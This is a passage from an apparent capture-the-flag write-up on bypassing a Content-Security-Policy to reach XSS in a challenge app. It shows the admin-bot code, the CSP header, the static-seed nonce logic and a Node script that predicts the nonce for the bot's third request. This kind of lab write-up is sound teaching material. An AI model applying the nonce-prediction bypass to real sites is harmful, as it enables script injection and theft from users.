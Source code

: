```js

        await page.type('#name', 'admin');
        await page.type('#toDo', flag.trim());

        await page.click('#submit');

        await sleep(500);

        await page.goto(url, { timeout: 3000, waitUntil: 'domcontentloaded' });
        await sleep(3000);
    }
};
```

If we attempt to send a common payload like ``<script>alert(1)</script>``, it will not execute the XSS attack due to the presence of Content Security Policy (CSP) protection on the web page. Here is the **CSP** being used by the web server.

```js
res.header('Content-Security-Policy', `script-src 'nonce-${req.locals.nonce}'; default-src 'self'; style-src 'self' 'nonce-${req.locals.nonce}';`);
```

The nonce value is particularly interesting to investigate further, as there are a few lines of code within the following function that utilize a static value on the initial request

```js
app.addHook('onRequest', (req, res, next) => {
....
    req.locals.nonce = req.locals.nonce ?? '47baeefe8a0b0e8276c2f7ea2f24c1cc9deb613a8b9c866f796a892ef9f8e65d';
    req.locals.nonce = crypto.createHash('sha256').update(req.locals.nonce).digest('hex');
    res.header('Content-Security-Policy', `script-src 'nonce-${req.locals.nonce}'; default-src 'self'; style-src 'self' 'nonce-${req.locals.nonce}';`);
....
    next();
});
....
```

When we make the first request, our nonce will be set to the value `34dce4583c235ebfa8e06020ae7f81ccc0007b05baf6cca9c03ae07930c64b4f`, as there is no existing nonce value initially. Subsequent requests will continue to follow the same pattern, allowing us to easily craft our XSS payload with the predictable nonce value on each request.

Looking back at the `admin-bot.js`, we can confirm that our URL will be browsed by the admin on the 3rd request. Therefore, we can utilize the following code to generate the nonce value for the third request.

```js
const crypto = require('crypto');
const firstnonce = '47baeefe8a0b0e8276c2f7ea2f24c1cc9deb613a8b9c866f796a892ef9f8e65d';
const first_request = crypto.createHash('sha256').update(firstnonce).digest('hex');
const second_request = crypto.createHash('sha256').update(first_request).digest('hex');
const third_request = crypto.createHash('sha256').update(second_request).digest('hex');
console.log(third_request);
```
